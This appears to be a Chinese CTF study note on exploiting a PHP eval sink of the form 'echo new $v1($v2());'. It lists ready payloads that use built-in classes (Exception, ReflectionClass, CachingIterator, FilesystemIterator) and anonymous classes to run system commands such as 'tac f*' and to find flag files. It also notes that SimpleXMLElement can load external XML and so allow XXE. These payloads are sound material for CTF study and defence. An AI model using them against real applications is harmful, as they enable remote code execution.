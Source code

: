 
## **eval和new类结合**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo直接让$v1触发__toString()，此时传递的$v2参数会被输出。
这里需要对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。

v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。这个文件名一般就是flag文件且可以直接访问
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```


^
## **存在XXE的类**
PHP的内置类
SimpleXMLElement
对象
```
// 解析 XML 数据
$xmlData = '<root><element>value</element></root>';
$xml = new SimpleXMLElement($xmlData);

// 解析 XML 文件 
URL$xmlUrl = 'http://example.com/example.xml';
$xml = new SimpleXMLElement($xmlUrl, 0, TRUE);
此时外链的xml是存在xxe即可。
```

